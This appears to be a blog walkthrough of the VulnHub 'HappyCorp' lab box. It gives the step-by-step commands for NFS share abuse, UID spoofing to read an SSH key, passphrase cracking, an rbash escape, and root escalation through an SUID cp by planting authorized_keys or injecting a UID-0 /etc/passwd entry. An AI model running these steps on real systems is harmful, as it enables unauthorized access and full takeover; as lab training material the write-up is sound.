*HappyCorp* is a boot to root box that requires us to find 2 flags by exploiting different vulnerabilities ranging from improper configurations, SUID bits etc.
<!--more-->
You can download the box by clicking on the link given below:
- https://www.vulnhub.com/entry/happycorp-1,296/ 

## Recon

I performed an **nmap** scan to identify the target IP.

```bash
nmap -sn 192.168.1.0/24                               
```

After identifying the target IP, I performed an **nmap** aggressive scan to find open ports and the services running on them while also enumerating them using **nse** scripts.

```shell
nmap -A -p- 192.168.1.11 -T5 -oN nmap.out
```

| **Port** | **Service**            |
| -------- | ---------------------- |
| 22       | ssh                    |
| 80       | http                   |
| 111      | rpcbinder              |
| 2049     | nfs                    |
| 41807    | *dynamically assigned* |
| 45633    | *dynamically assigned* |
| 47619    | *dynamically assigned* |




## Initial Foothold

### Gaining Shell

The **nmap** aggressive scan revealed an endpoint inside the *robots.txt*. I visited the endpoint but soon found out it was just a rabbit hole. It only revealed the existence of a user called *heather* (name present on the home page) but provided no other useful information. Additionally, there was no point in attempting SQL injection because of a comment in the HTML.

```shell
curl http://192.168.1.11/admin.php
```



So, I moved onto the next port, which is 2049 (**nfs**).

I viewed mounted directories using **showmount**

```shell
showmount -e 192.168.1.11
```



The above command revealed that the directory of user *karl* was mounted. To access it, I mounted a temporary directory from my local system and viewed the contents present inside *karl*

```shell
mkdir rick
mount -t nfs 192.168.1.11:/home/karl rick
ls -la rick
```





I found the *.ssh* file. This file contains the authentication related information about a particular user. If I could read it's contents (private key), I could log into the system as *karl*. 

To read the *.ssh* file, I created a new user with the same UID as the owner of the *.ssh* file (1001) and switched to that user.

```shell
useradd --uid 1001 kratos
su kratos
```



I then viewed the contents inside the *.ssh* folder and found the first flag.





I copied the entire *.ssh* folder on my local system at the */tmp* directory.

```shell
cp -r .ssh /tmp
```





I then viewed the private key (**id_rsa**) and found out that it was encrypted with a password.



I then attempted to crack the password using **john** and *rockyou.txt* wordlist. To make the file crackable for **john**, I used the **ssh2john** utility.

```shell
ssh2john id_rsa > karl.hash
john karl.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



I was able to crack the password and used it to log into the target with *karl*'s private key. However, upon logging in, I was provided with an **rbash** (I had restrictions on the commands that I could execute)

```shell
ssh -i /tmp/.ssh/id_rsa karl@192.168.1.11
# enter password when prompted
```



### Escaping RBash

To break out of **rbash**, I manually specified the shell that I wanted while logging in using **ssh**

```shell
ssh -i /tmp/.ssh/id_rsa karl@192.168.1.11 -t /bin/bash
```



## Privilege Escalation

### Enumeration

Now that I had shell access, I downloaded the **lse** script to enumerate potential privesc vectors.
- https://github.com/diego-treitos/linux-smart-enumeration

On Attacker system, I downloaded the script from **github** and then:

```shell
python3 -m http.server 8888
```

I then downloaded it on the target system:

```shell
wget http://ATTACKER_IP:8888/lse.sh
```

Finally, I ran the script:



The script discovered an SUID bit in the **cp** command.



I also verified this manually.

```shell
find / -user root -perm -u=s -ls 2>/dev/null
```



So, I was allowed to copy a file with root privileges. Now, I could move onto privilege escalation.

### Exploitation - SSH Auth Keys

To escalate my privilege, I added my public key to the *authorized_keys* file and copied this file to the */root* directory. This way, I was able to **ssh** as root without a password.

To create a key-pair, I executed the following on my local system:

```shell
ssh-keygen -t rsa -b 4096 -C "NAME"
```



I copied my public key and pasted it into the victim machine.



```shell
cd tmp
mkdir .ssh
cd .ssh
echo KEY > authorized_keys
```



Finally, I copied the *.ssh* folder into the root directory.

```shell
cp -r .ssh /root/
```

Now, I could log into the system as root user:

```shell
ssh root@192.168.1.11
```



### Exploitation - Creating A New User

For this method, I created a new user on my system with a *uid* **0** and added the user to the */etc/passwd* file of the target.

To perform this attack, I copied the */etc/passwd* file from the victim's system onto my own through the mounted directory.

```shell
cd rick
cp /etc/passwd /root/ctf/happycorp
```



I then created a new user with username **nemesis** and password **bypass**.

```shell
useradd nemesis
openssl passwd -1 -salt mimir bypass
```
> `-1` indicates MD5 hash and the `-salt` option specifies the salt to use for the hash. In the above case, the salt is *mimir*.



I then appended the following into the *passwd* file that I had copied.

```shell
echo 'nemesis:$1$mimir$mU/..cXck3dFQW1wl98mT:0:0:root:/root:/bin/bash' >> passwd
```



I transferred the file back into the main system and moved it into the intended directory. 

For the file transfer, I started an **http** server on my local system:

```shell
python3 -m http.server 8080
```

Then. in the target machine, I downloaded the file:

```shell
wget http://ATTACKER:8080/passwd
```

Finally, I switched users to escalate privilege.

```bash
su nemesis
Password: 
root@happycorp:/home/karl/tmp#
```

I then moved into the *root* directory and captured the second flag.



## Closure

Here's how I pwned HappyCorp:
- I utilized the network share mounted through *nfs* to gain access to the */home/karl* directory.
- I created a new user with the necessary user-id value and found the first flag in the *.ssh* directory.
- I then cracked the password of the private key and logged in as *karl*.
- I discovered an suid bit set on the **cp** command.
- Exploiting this, I gained root access using two different methods:
	- I added my public key to the *authorized_keys* file on the target machine.
	- I created a new user with UID 0 and added this user to the */etc/passwd* file on the target machine.
- With root access secured, I obtained the final flag from the *root* directory.

That's it from my side! Until next time:)

---